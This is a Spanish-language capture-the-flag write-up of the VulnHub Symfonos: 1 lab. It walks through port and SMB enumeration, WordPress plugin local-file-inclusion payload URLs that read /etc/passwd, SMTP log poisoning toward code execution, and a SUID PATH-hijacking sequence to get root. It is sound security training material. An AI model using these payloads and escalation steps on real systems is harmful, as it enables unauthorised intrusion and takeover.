

# VulnHub - Symphonos: 1 Writeup

## Primer paso: Excaneo de puertos
Anotamos nuestra IP

```bash
sudo ifconfig
```


En este caso será 192.168.226.128

Luego, es necesario encontrar la máquina a vulnerar. Esto se puede hacer con arp-scan o nmap. En este caso se le pedirá a nmap que escanee todas las IPs en nuestro rango.

```bash
nmap 192.168.226.0-255
```


- 192.168.226.2 :Tiene abierto el puerto 53, que se usa para DNS, por lo que se descarta esta máquina.
- 192.168.226.128: Es la máquina atacante.
- 192.168.226.131: Es la única máquina que queda, además tiene abiertos los puertos 22, 25, 80, 139 y 445.

Ahora que tenemos la máquina identificada, actualizamos el archivo /etc/hosts como indica el autor de la máquina virtual:
```bash
sudo nano /etc/hosts
```


En estos puertos corren los siguientes servicios:

- 22: ssh, sirve para conectarse al servidor
- 25: smtp, protocolo para la transferencia simple de correo
- 80: http, es una página web
- 139: netbios-ssn Netwoek Basic Input Output, comunica las aplicaciones web con el hardware
- 445: microsoft-ds, es usado por SMB (Server Message Block), un protocolo para compartir recursos en una red.

Dado que tenemos corriendo servicios que según su versión pueden ser vulnerables, correremos el siguiente comando:


```bash
sudo nmap -vvv -sV -sC 192.168.226.131 -p 22,25,80,139,445 -n -Pn -oN escaneo
```

Las flags empleadas realizarán lo siguiente:
- vvv: Proporciona los resultados por pantalla según se encuentren
- sV: Muestra la versión del servicio corriendo en el puerto
- sC: Corre contra esos servicios scripts predeterminados
- p: Los puertos a escanear
- n: Indica que no se debe de realizar la resolución DNS
- Pn: Le decimos a nmap que el host está encendido, por lo que no debe de comprobarlo previamente.
- oN: Guarda la salida en un archivo llamado escaneo

Tendremos ahora toda la información en el archivo escaneo:


Con lo cual, procedemos a clasificarla:

Puerto Servicio Versión
22/tcp ssh OpenSSH 7.4
25/tcp smtp
80/tcp http Apache httpd 2.4.25
139/tcp netbios-ssn Samba smbd 3.X - 4.X
445/tcp netbios-ssn Samba smbd 4.5.16

A través del navegador se puede acceder a la página web:


Aunque no proporciona información.

Intentaremos acceder a través de Samba, para ello podemos usar la herramienta enum4linux

```bash
enum4linux 192.168.226.131
```

Al correrlo sin ninguna flag proporciona más información:



Obtenemos un usuario llamado helios y tres directorios compartidos, siendo accesible sin identificarse el directorio de 192.168.226.131/anonymous.

Nos conectamos a este directorio a través del comando:

```bash
smbclient //192.168.226.131/anonymous
```

Y podremos acceder al terminal de Samba:


La consola de Samba no permite leer el archivo directamente, pero se puede descargar y examinar su contenido en local:


Ahora sabemos que hay un usuario helios y la indicación de no usar tres contraseñas:

- epidioko
- qwerty
- baseball

Probamos a entrar al directorio de helios con las contraseñas:

```bash
smbclient //192.168.226.131/helios -U helios
```

En este caso la contraseña es qwerty.


Hay dos archivos, los descargamos y examinamos:


Lo único interesante es el punto 3 del archivo todo.txt. Es un subdirectorio de la página web que posee el servidor:


Es una página web WordPress, por lo que la analizamos con WPScan:

```bash
wpscan --url http://symfonos.local/h3l105/ --api-token TOKEN_API
```

*Para obtener el TOKEN_API hay que registrarse en [WPScan](https://wpscan.com/)

Obtenemos mucha información, al ser este un WordPress desactualizado.


Con el objetivo de querer tomar el control del servidor web, hay que encontrar alguna vulnerabilidad de "Local File Inclusion":


Encontramos dos, de dos plugins distintos. Después de explorar en exploit-db el proof of concept, vemos que su uso es similar:

- http://<host>/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
- http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

Empleando cualquiera de los enlaces superiores, se puede acceder al archivo /etc/passwd del servidor:


Como no se puede acceder con esta vulnerabilidad al archivo /etc/shadow, no es factible un ataque por fuerza bruta con john the ripper.

Aun así, se puede escalar un "Local File Inclusion" a un "Remote Code Execution". Para ello, buscamos un archivo al que hacerle "SMTP log poisoning". Este archivo se encontrará en /var/mail/helios. Para poder modificar su contenido, nos conectaremos al puerto 25 de la máquina víctima.

```bash
telnet 192.168.226.131 25
```


 Un ejemplo de cómo funciona este comando se encuentra en [Este enlace](http://www.unixcook.com/old-unix-docs/MIX-UNIX/smtp.txt)

 Comprobamos que el comando funciona:


Y entramos en [RevShells](https://www.revshells.com/) para crear nuestra reverse shell. En este caso a mi me funcionó la siguiente configuración:


Entraremos con el usuario helios, pero no en una tty, por lo que hacemos lo siguiente:

1. script /dev/null -c bash
2. Ctrl + z
3. stty raw -echo; fg
4. reset xterm

Ahora, al introducir el comando tty nos devolverá /dev/pts/0

Para el escalado, se puede usar un path hijacking, para ello buscaremos todos los archivos que puede ejecutar un usuario normal con permiosos:

```bash
find / -perm -4000 2>/dev/null
```
- find es el comando para buscar
- - / indica que busque en todo el sistema de archivos
- - -perm Es para que devuelva resultados según el permiso del archivo
- - -4000 Es para archivos que se pueden ejecutar sin permisos pero tienen permisos de root
- 2> Redirige todos los errores (archivos que no cumplen estas condiciones)
- - /dev/null es una carpeta que siempre está vacía, para no guardar lo que entra


Ahora, revisaremos con strings cada uno de estos archivos, debemos encontrar en uno tanto 'system' como un comando al que realizar el path hijacking.


1. echo /bin/sh > /tmp/curl
2. chmod 4777 /tmp/curl
3. export PATH=/tmp:$PATH
4. /opt/statuscheck

 

Con esto ya tendremos acceso de root y podremos ver la flag:


